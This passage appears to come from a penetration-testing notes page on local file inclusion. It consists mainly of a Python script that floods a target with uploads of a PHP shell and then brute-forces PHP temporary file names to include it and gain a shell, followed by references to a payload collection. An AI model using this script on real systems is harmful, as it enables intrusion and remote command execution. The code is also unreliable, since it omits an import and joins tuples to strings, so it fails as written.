 **Python script to try to bruteforce the name \(if length = 6\)**

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

### References

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)  
[PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal/Intruders](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal/Intruders)

{% file src="../../.gitbook/assets/en-local-file-inclusion-1.pdf" %}

